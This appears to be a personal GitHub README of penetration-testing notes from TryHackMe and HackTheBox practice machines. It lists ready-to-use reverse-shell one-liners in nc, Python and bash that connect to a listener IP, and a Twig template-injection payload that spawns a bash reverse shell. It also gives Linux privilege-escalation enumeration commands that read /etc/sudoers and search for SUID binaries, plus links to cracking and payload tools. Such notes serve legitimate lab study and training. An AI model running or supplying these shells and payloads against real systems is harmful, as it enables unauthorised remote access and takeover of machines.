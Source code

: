 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe and HackTheBxo platforms. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

#### Introduction

In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.
#### [notes](./other/notes.md)

#### [web](./other/web.md)

#### [osint](./other/osint.md)

---

#### Reverse shells

```nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

```bash
bash -i >& /dev/tcp/10.18.22.27/4444 0>&1
```

```js
{{this.controller.getTwig().registerUndefinedFilterCallback("passthru")}}
{{ this.controller.getTwig().getFilter("bash -c 'bash -i >& /dev/tcp/10.127.255.241/4455 0>&1'") }}
```

---
### Linux Privilege Escalation:

#### information gathering

```bash
cat /proc/version
cat /etc/issue
cat /etc/sudoers
ps aux | grep cron
ps
env
ip route
uname -a
netstat # -at -l -t -tp -i
netstat -tupln | grep LISTEN
ss -atur
find / -writable 2>/dev/null
find / -mtime 10 #find files that were modified in the last 10 days
find . -name flag.txt
find / -type d -name config #find the directory named config under “/”
find / -type f -user <user> 2>/dev/null #find files owned by user
find / -type f -perm /4000 2>/dev/null
find / -type f -group <group> -exec ls -l {} + 2>/dev/null
getcap -r / 2>/dev/null
cat /etc/exports #file sharing
nmap --script=vuln <ip>
cat /proc/1/cgroup #if u in docker
```
#### quik one-line bash script with colorful output to enumerate linux machine

```bash
for cmd in "history" "id" "echo $PATH" "cat /etc/crontab" "sudo -V " "cat /proc/version" "cat /etc/issue" "cat /etc/sudoers" "cat /etc/sudoers.d" "env" "ip route" "uname -a" "netstat -tupln | grep LISTEN" "find / -type f -perm /4000 2>/dev/null" "getcap -r / 2>/dev/null" "cat /etc/exports" "cat /proc/1/cgroup"; do echo  "\n\033[1;34mCommand: $cmd\033[0m"; echo "\033[1;32m$(eval $cmd)\033[0m"; echo  "\033[1;33m\n===================================================================================================\n==================================================================================================="; done
```
#### [other](./other/src/linux_priv_esc.md)

---
#### [windows](./other/windows.md)

---

### links
#### notes
- [cve.mitre.org](https://cve.mitre.org/cve/)
- [WTFBINS (cve)](https://wtfbins.wtf/)
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/)
- [tmpfiles](https://tmpfiles.org/)
#### Encoding techniques:
- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)
- [crackstation](https://crackstation.net/)
- [md5decrypt.net](https://md5decrypt.net/en/)
- [vigenere brute force](https://www.guballa.de/vigenere-solver)
- [html enteties](https://www.webatic.com/html-entities-convertor)
- [list of signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
- [xxs-encoder](http://evuln.com/tools/xss-encoder/)
- [10015.io](https://10015.io/tools/md5-encrypt-decrypt)
- [de4js](https://lelinhtinh.github.io/de4js/)
- [Cisco Password Cracker](https://www.ifm.net.nz/cookbooks/passwordcracker.html)
#### Tools
- [reconftw](https://github.com/six2dez/reconftw)
- [google dorks](/HackNotes/other/src/dorks.md)
- [gowitness](https://github.com/sensepost/gowitness) (screenshots)
- [meg](https://github.com/tomnomnom/meg)(fetch many paths for many hosts)
- [arjun](https://github.com/s0md3v/Arjun)(http param discovery)
- [x8](https://github.com/Sh1Yo/x8)(like arjun)
- [dalfox](https://github.com/hahwul/dalfox)(find xxs)
- [XXSHunter](https://xsshunter.trufflesecurity.com/app/#/)

[other links](./other/src/links.md)

---

Happy hacking!
